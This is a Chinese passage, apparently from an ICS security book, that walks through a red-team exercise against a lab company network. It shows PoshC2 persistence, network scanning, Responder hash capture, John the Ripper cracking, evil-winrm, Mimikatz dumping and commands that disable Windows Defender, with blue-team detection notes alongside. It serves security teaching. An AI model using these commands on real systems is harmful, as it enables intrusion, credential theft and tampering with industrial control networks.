> **注意**
> 
> 在某些 Windows Server 系统上，植入体的部分内容会被 Windows Defender 标记。为避免检测，请按照本文中的说明操作：https://github.com/nettitude/PoshC2/issues/164。

现在，我们已通过 PoshC2 植入体建立了连接，首先要做的事情是设置持久化，这样即使目标重启或我们意外失去连接，植入体也会自动开始尝试重新连接 PoshC2 服务器。要与 PoshC2 植入体交互，我们需要在新的终端窗口中运行 posh，如下所示：



我们可以通过输入植入体 ID（8）开始与植入体交互。这会带我们进入 `\implant` 命令菜单。从这里运行 `install-persistence`，让 PoshC2 在目标上设置一个持久化植入体，如下所示：

```
TEST_REPORTSSER\reports_user @ TEST_REPORTSSER (PID:2188)
PS 8> install-persistence
```

这会安装持久化模块，如 posh-server 终端中所示：



我们现在拥有了一条可靠的通向 Z 公司企业网络的后门。是时候开始探索环境了。

### 蓝队观察

在攻击的这一点上，如果蓝队的工具被调校为可发现进入企业网络的连接，那么他们应该开始看到一些异常。看到来自互联网的入站 RDP 连接绕过非军事区（DMZ）进入企业网络，应该非常可疑。另外，对通过超文本传输协议（HTTP）进行的下载进行监控也是一项措施，但实施起来更难。诸如 BAT、EXE、SYS 等可执行文件格式应引起警惕。这很难实施，因为误报的可能性很大。


补充蓝队观察结果，我们有以下几点：

- 来自互联网的内部连接应受到密切监控。
- 可执行文件格式的下载行为应被监控。

## 企业侦察

此时，我们已建立起到*Z公司*企业网络的持久连接。接下来我们要执行的活动将是探索环境，看看能否找到其他（有趣的）可被利用的系统。由于目标是在自动化设备上执行固件升级，我们应首先弄清楚 PLC 在网络中的位置。为了测试运气并查看我们是否处于一个扁平网络（即业务设备和自动化设备位于同一网络/子网中），我们可以扫描本地网络，看看能否找到任何 ICS 设备。PoshC2 植入体中内置了若干扫描功能，可以为我们完成此任务。其中一个功能是 `arpscan`。我们运行以下命令：

```
TEST_REPORTSSER\reports_user @ TEST_REPORTSSER (PID:5976)
PS 12> arpscan
```

上述命令列出了我们所在的*Z公司*企业网络分段上的所有系统，如下所示：



图 16.12 – 运行 arpscan 植入体功能

现在我们可以获取媒体访问控制（MAC）地址，并通过在线工具（如 https://macvendors.com/）查找厂商，如下图所示：


图 16.13 – MAC 地址查询

如果我们找到任何自动化厂商，我们就知道接下来该关注何处。此外，我们可以对发现的系统执行端口扫描，查看是否存在通常出现在自动化设备上的开放端口，例如 2222、44818、502 等。植入体中使用的函数是 portscan，如下所示：

```
TEST_REPORTSSER\reports_user @ TEST_REPORTSSER (PID:5976)
PS 12> portscan 10.0.0.100
```

这显示了 posh-server 界面上 10.0.0.100 的开放端口，如下所示：



图 16.14 – 运行 portscan 植入体功能

> **注意**
>
> 我们可以设置一个 **Socket Secure (SOCKS)** 代理服务器，并让我们的植入体通过它隧道传输来自攻击者机器的流量。这样，我们就可以使用诸如 Nmap 等熟悉的工具来扫描网络。

要在*Z公司*网络中设置 SOCKS5 代理，请遵循以下说明：

1. 在植入体处理器界面中输入 `sharpsocks`。随后，植入体处理器界面会立即打印出一行包含在攻击者端启动 SOCKS 服务器参数的信息。复制该命令行并将其粘贴到一个新的终端（注意：不是植入体处理器终端）。
2. 一旦新终端中的服务器启动，切换回植入体处理器界面并输入 `Y` 以将 `sharpsocks` 命令发送到植入体。输出现在应显示植入体已启动。如果已启动，您应该可以看到 SOCKS 代理正在监听端口（默认为端口 43334）。
3. 配置 `proxychains` 或其他支持 SOCKS 代理的工具，设置为 `localhost:43334`。
4. 现在我们可以开始使用代理服务器了。

以下截图显示了这些活动的概览：



SOCKS 代理连接将在我们开始向*Z公司*网络深处进行跳板操作时使用。

经过广泛的侦察，我们意识到通往胜利的道路并不像我们希望的那么简单。*Z公司*似乎对其网络进行了分段，以更好地保护其工业系统。我们需要弄清楚是否有任何企业系统能够访问该分段网络。我们可以尝试查找一些域凭据，并尝试连接到网络上的每台机器，寻找该系统用于访问工业设备的证据。别忘了，我们有充足的时间来完成我们的目标。然而，如果我们退后一步思考片刻，为什么不查找*Z公司*是否有已知的控制工程师，并了解该人员拥有什么权限？社交媒体使这类研究变得极其简单。在 LinkedIn 上简单搜索*Z公司*的工程师就能得到几个可以尝试的名字，如下所示：



图 16.16 – 在 LinkedIn 上搜索*Z公司*的工程师

我们可以看到以下人员正在*Z公司*从事工程职位：

- **Ann Harbor**
- **Joe Smith**
- **Mark Gibson**
- **Marina Soeters**

在侦察过程中，我们发现*Z公司*的用户名由用户名字首字母与其姓氏拼接而成，例如 Jane Doe 对应 jdoe，这给我们提供了以下需要查找的用户名：

- `Aharbor`
- `Jsmith`
- `Mgibson`
- `Msoeters`

有了这个列表，我们可以在企业网络中进行嗅探、探测和搜索，直到找到一个可被这些用户之一访问或正在被访问的系统。如果我们处于域加入的计算机上，这将是一个 PowerShell 练习，甚至可能使用 **BloodHound** (https://github.com/BloodHoundAD/BloodHound)。然而，我们所在的测试服务器并未连接到 lab-domain.local Windows 域（通过 get-computerinfo 植入体命令发现）。

为了弄清楚这些用户中的任何一个登录在哪里，我们需要将自己转移到一台域加入的计算机上，以便开始使用 PowerShell 命令进行探测。我喜欢在 Windows 域环境活动中使用 PowerShell 的原因是，这类命令能很好地融入 Windows 机器上的正常活动。我们使用的工具越奇特，它们触发警报或被防病毒软件检测到的可能性就越大。这通常被称为 **利用本土工具 (Living off the Land, LotL)**，即使用环境中常见的工具。我们需要在域加入的计算机上建立立足点的原因是，我们所需的功能在域加入的计算机上更容易获取。此外，我们要运行的命令不太可能被检测到，因为它们被域成员常用。要进入域成员机器，我们需要找到一台存在漏洞的域加入计算机，或者设法获取凭据。在我开始使用嘈杂工具扫描网络之前，我喜欢看看能否从网络上获取一些哈希凭据。一个仍然是查找这些凭据的最佳选择之一的工具是 **Spiderlabs** (https://github.com/SpiderLabs/Responder) 开发的 Responder，描述如下：

> Responder 是一个 LLMNR、NBT-NS 和 MDNS 毒化工具。它会根据名称后缀回答特定的 NBT-NS (NetBIOS 名称服务) 查询（参见：http://support.microsoft.com/kb/163409）。默认情况下，该工具仅回答文件服务器服务请求，即 SMB。
>
> 背后的概念是使我们的回答具有针对性，并在网络上保持更隐蔽。这也有助于确保我们不破坏合法的 NBT-NS 行为。如果您希望回答工作站服务请求名称后缀，可以通过命令行设置 -r 选项。

Responder 工具最初是为 Python 开发的，后来被 **Lgandx** (https://github.com/lgandx) fork 为 Windows 可执行文件。Windows 版本的下载链接为 `https://github.com/lgandx/Responder-Windows/raw/master/binaries/Responder/Responder.exe`。

我们可以使用 Invoke-WebRequest 将该可执行文件下载到 RDP 服务器，如下所示：

```
TEST_REPORTSSER\reports_user @ TEST_REPORTSSER (PID:5976)
PS 12> invoke-webrequest -Uri "https://github.com/lgandx/Responder-Windows/raw/master/binaries/Responder/Responder.exe" -outfile responder.exe
```



现在运行 `responder.exe` 工具并坐等结果，如下所示：



图 16.18 – 运行 responder.exe

一段时间后，我们看到 responder 从网络中嗅探到了 `admin1` 的凭据。它们是 `admin1` 用户的**新技术 LAN 管理器 (NTLM)** 哈希值，根据我们的侦察，我们知道这是一个域管理员账户。这些可以在以下截图中看到：



图 16.19 – Responder 发现的 admin1 的 NTLMv2 哈希值


看起来 admin1 意外尝试访问 \\client1。Responder 工具利用了这个失误，迅速发送了伪造的响应，并成功让客户端计算机（10.0.0.130）发送了 admin1 用户的 NTLMv2 哈希凭据。

我们可以用 **John the Ripper**（https://www.openwall.com/john/）尝试暴力破解这些凭据，如下所示：

```
$ john /home/pac/workdir/hashes --wordlist=/usr/share/wordlists/rockyou.txt --rules=All

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:05:25 0.23% (ETA: 2021-03-01 08:45) 0g/s 3168Kp/s 3168Kc/s 3168KC/s inkice123)..infinite42)
0g 0:00:05:28 0.23% (ETA: 2021-03-01 08:54) 0g/s 3176Kp/s 3176Kc/s 3176KC/s nambo01*..nakata4434493*
0g 0:00:11:56 0.40% (ETA: 2021-03-01 18:25) 0g/s 3504Kp/s 3504Kc/s 3504KC/s jezalynning..jetmairing
SouthEastWlcThunder-2020      (admin1)
1g 0:12:20:12 DONE (2021-02-27 17:00) 1000.0g/s 1000.0p/s 1000.0c/s 1000.0C/s SouthEastWlcThunder-2020
Session completed
```

前一段代码片段中的命令指示 John the Ripper 从 /home/pac/workdir/hashes 加载 admin1 的哈希，并尝试用 /usr/share/wordlists/rockyou.txt 列表中的每个密码对其进行测试。我们指示 John the Ripper 额外根据 John the Ripper 规则对密码进行变异，我们使用 --rules=All 指定了该规则。

John the Ripper 遍历所有这些密码和变异需要很长时间，但最终我们破解了 lab-domain\admin1 域管理员账户的密码：SouthEastWlcThunder-2020。

> **注意**
> 
> 随 Kali 提供的 rockyou.txt 标准词表（标准词表）不包含密码的完全匹配项，但由于我们指示 John the Ripper 使用 --rules=All 使用转换规则，我们还是成功破解了密码。

我们现在可以使用破解的凭据远程连接到域控制器。在尝试并失败使用多种远程访问工具，包括 Psexec.py、wmiexec.py 等之后，我最终使用 evil-winrm（https://github.com/Hackplayers/evil-winrm）通过我们之前设置的 SOCKS 代理成功建立了连接。这只证明你永远不会拥有足够多的工具。

使用的命令如下所示：

```
proxychains evil-winrm -i 10.0.0.100 -u admin1@lab-domain.local.
```

我们连接域控制器的原因是它具有我们需要的 PowerShell 功能来在域计算机的海量数据中查找用户（Get-AdComputer）。我们可以在暴露此功能的 Active Directory（AD）模块上找到域成员，或将其安装在已加入域的机器上，但由于我们拥有域管理员账户，风险似乎更小，直接连接到域控制器并使用已安装的 PowerShell 模块。

在运行 evil-winrm 之后，我们现在已通过 Windows 远程管理（WinRM）协议的 shell 会话连接到公司 Z 企业网络的域控制器，如以下屏幕截图所示：



图 16.20 – 通过 ProxyChains 和 sharpsocks 使用 evil-winrm

我们现在可以开始搜索域计算机，看看是否能找到四名工程师中的一人已登录，如下所示：

+ 首先，让我们使用 get-adcomputer PowerShell 命令查看所有域计算机：

```
PS [C:\Users\admin1\Documents> get-adcomputer -Filter * | select name

[S-chain] ->127.0.0.1:43334->>10.0.0.100:5985->>OK
[S-chain] ->127.0.0.1:43334->>10.0.0.100:5985->>OK

name
----
LAB-DC1
MEMBER-SRV1
WIN10-1
WIN7-1
WIN8-1
ENT-SQL
WIN10-2
WIN10-3
ENT-IIS
WIN7-2
```

+ 使用 get-adcomputer 的输出作为输入（管道传输），我们对每个域计算机运行 get-ciminstance -classname win32_computersystem 命令，如下所示：

```
get-ciminstance -classname win32_computersystem
-computername (get-adcomputer -filter * | select
-expandproperty name) | select name, Username:
```

get-ciminstance PowerShell 脚本将在遍历每个域计算机时查询 Windows Management Instrumentation（WMI）数据库中的 win32_computersystem 数据，使用 get-adcomputer -filter * | select -expandproperty name，并选择 name、username 将提取计算机名称和当前登录用户的用户名。

输出看起来像这样：

```
...
name    Username
----    ---------
MEMBER-SRV1
WIN8-1
ENT-SQL    LAB-DOMAIN\administrator
ENT-IIS
WIN10-1    LAB-DOMAIN\mgibson
LAB-DC1    LAB-DOMAIN\administrator
WIN10-3
...
```

我们找到了感兴趣的系统... WIN10-1。让我们在上面投放一个 implant 并继续前进。

## 蓝队观察

由于我们主要坚持使用原生的 Windows 工具，这种类型的活动很难被蓝队发现。看到 TEST_REPORTSSER（SOCKS 代理的出口点）与域控制器之间的连接可能令人怀疑，但找到该连接就像在大海捞针一样。一种好的方法是监控进入域控制器的每个交互式连接（通过终端、RDP 会话或本地或通过系统控制台）。此外，如果已配置 Server Message Block（SMB）签名（https://docs.microsoft.com/en-us/troubleshoot/windows-server/networking/overview-server-message-block-signing），responder 工具将很难获取 admin1 的哈希凭据。将这些观察添加到列表中：

- 监控进入域控制器的交互式连接。
- 配置 SMB 签名以防止将凭据发送到未知 SMB 服务器。

在 implant 终端运行以下命令以安装服务级持久化：

```
LAB-DOMAIN\admin1* @ WIN10-1 (PID:8432)
PS 26> install-servicelevel-persistence
Payload to use: payload.bat
```

该命令现在按如下方式安装 implant 服务：



图 16.23 – 在 WIN10-1 上安装持久化服务

就这样，我们在目标企业系统中创建了一个永久的、特权的（域管理员）implant。让我们开始四处窥探。

## 蓝队观察

横向移动仍然是蓝队最难监控的事情之一。网络上计算机之间的连接不断发生，除非我们跟踪行为（谁在何时连接到哪里），否则几乎不可能检测到异常。本节中讨论的横向移动的一个方面是服务的创建。这种活动应该足够罕见，使得监控该事件是可行的，并允许快速发现潜在的恶意活动。你可以在这里看到一个服务的创建：



图 16.24 – 服务创建事件

将服务创建事件的监控添加到可观察工件（蓝队能力）列表中。

## 进入工业网络的枢纽

现在我们坐在一台可能用于与工业设备通信的工程工作站上，让我们四处看看一些明显的东西。首先，许多用户会缓存各种凭据，例如网站、共享文件夹和远程桌面会话的凭据。我们可以让我们的 implant 使用 get-wmi regcachedrdpconnection 查找缓存的 RDP 凭据。运行此命令显示了一个名为 workstation10.ot-domain.local 的目标服务器的缓存条目，如以下屏幕截图所示：



看起来很有希望！此输出告诉我们 mgibson 缓存（保存）了其用于连接到 workstation10.ot-domain.local 服务器的凭据，根据其名称我们怀疑它是一个自动化系统。我们将尝试破解 mgibson 的密码（通过从内存中获取其哈希）或使用 Mimikatz 在内存中找到明文密码。然后我们将使用我们的代理或进入测试服务器的 RDP 会话通过 RDP 连接到 Mark Gibson 的计算机。为了不被发现，我们已经做了功课（侦察）并确定 WIN10-1 和 TEST_REPORTSSER 在晚上 9 点到凌晨 4 点之间是废弃的（无人使用）。剩下的就是找到 mgibson 的密码。让我们先尝试 mimikatz 方法。在 WIN10-1 implant 上运行 invoke-mimikatz 命令会给我们大量信息，其中最有趣的部分是这一节：

| ... |
| Authentication Id : 0 ; 409389 (00000000:00063f2d) |
| Session : Interactive from 1 |
| User Name : mgibson |
| Domain : LAB-DOMAIN |
| Logon Server : LAB-DC1 |
| Logon Time : 2/27/2021 5:30:01 PM |
| SID : S-1-5-21-158492451-1268741517-1484628790-1608 |
| msv : |


```
[00000003] Primary
* Username : mgibson
* Domain : LAB-DOMAIN
* NTLM : 58a478135a93ac3bf058a5ea0e8fdb71
* SHA1 : 0d7d930ac3b1322c8a1142f9b22169d4eef9e855
* DPAPI : 9459fcdd28401cb34262404420e63d7a
tspkg :
wdigest :
* Username : mgibson
* Domain : LAB-DOMAIN
* Password : (null)
kerberos :
* Username : mgibson
* Domain : LAB-DOMAIN.LOCAL
* Password : (null)
ssp :
credman :
...
```

不幸的是，Mimikatz 没有找到明文密码，这种情况自 Windows 10 成为主流以来很少见。但我们确实有一个 NTLM 哈希可以尝试破解。用 John the Ripper 运行它，得到以下结果：

```
└─(pacKVM0101011)-[~]
└$ john /home/pac/workdir/hashes --format=nt --wordlist=/usr/share/wordlists/rockyou.txt
1 x
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
Password123 (?) 
1g 0:00:00:00 DONE (2021-02-27 18:12) 100.0g/s 3379Kp/s 3379Kc/s 3379KC/s coco21..redlips
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
```

好吧，Mark 显然不会选择聪明的密码！如果这看起来过于简单，我要指出，密码仍然是大多数公司安全态势中最薄弱的环节。此外，如果我们没有通过破解找到密码，我们可以获取哈希并尝试进行哈希传递攻击，即在工具中直接使用哈希凭据，而不必先找到密码。另外，借助对 Mark 计算机的域管理员访问权限，我们可以直接更改或删除他的密码、安装键盘记录器，或使用任何其他迂回的方法来访问他的账户。这里要明白的一点是，我们需要访问 Mark 的账户，才能使用该账户连接到工业资产（*WORKSTATION10*）。正如我们稍早抓取的缓存凭据所示，工业域和企业域之间存在某种信任关系，因为缓存用户名是 `lab-domain.local\mgibson`，而目标计算机显示为 `workstation10.ot-domain.local`。

至此，我们确实已经拥有进入工业工作站所需的全部拼图。让我们稍作回顾，看看当前所处的位置。下面的截图展示了基于我们目前收集到的信息，*Z公司* 的网络拓扑情况：



图 16.26 – 观察到的 Z 公司架构

## 蓝队观察

红队演习的这一阶段中，唯一可能且本应被发现的部分是 Mimikatz 的运行。如果防病毒解决方案保持最新，通常应该能识别出 Mimikatz，因为它太出名了——即使不是可执行文件，至少也是它的行为。完全坦白：Windows Defender 确实捕获了我在 WIN10-1 上运行 Mimikatz 的尝试，因此我使用以下 PowerShell 命令禁用了它以进行演习：

```
Set-MpPreference -DisableRealtimeMonitoring $true
```

这会导致 Windows Defender 不再提供实时保护，如下所示：

# 实时保护

查找并阻止恶意软件在设备上安装或运行。您可以短暂关闭此设置，之后它会自动重新开启。

实时保护已关闭，您的设备容易受到攻击。

关闭

图 16.28 – Windows Defender 已关闭

在 Windows Server 系统上，我们可以使用以下命令彻底删除 Windows Defender：

```
Uninstall-WindowsFeature -Name Windows-Defender
```

不过，蓝队应该能够捕捉到这两条命令。将这些观察添加到列表中：

- 安装、更新并监控防病毒或端点保护解决方案。
- 监控防病毒服务事件（防篡改保护）。

> **注意**
> 
> 事先提醒一句。此时，应停止目标的生产活动。在生产期间进行任何红队活动都是不可取的！

## 工业环境侦察

在 *Z公司* 的工业网络中站稳脚跟后，是时候朝着我们的目标前进了：向红队演习范围内定义的 PLC 上传新固件。我们可以通过代理将扫描工具从互联网转向工业网络，也可以将工具下载/复制到 `Workstation10` 上，但在投入这么多精力之前，让我们先想一想。一定有人在某个时候设置了测试 PLC，所以让我们在当前的机器上寻找线索。在 Windows 文件资源管理器中搜索 `C:` 驱动器上的 `Left` 一词，如下所示：



哈！Engineer-3 的 Documents 文件夹中似乎有一个名为 Test_Left.ACD 的 ACD 文件（一个 Allen-Bradly ControlLogix 程序文件）。ACD 文件是 RsLogix 5000（罗克韦尔自动化 PLC 的编程软件）的项目文件。让我们打开这个项目，看看能从中发现什么，如下所示：



图 16.30 – Test_Left.ACD 项目

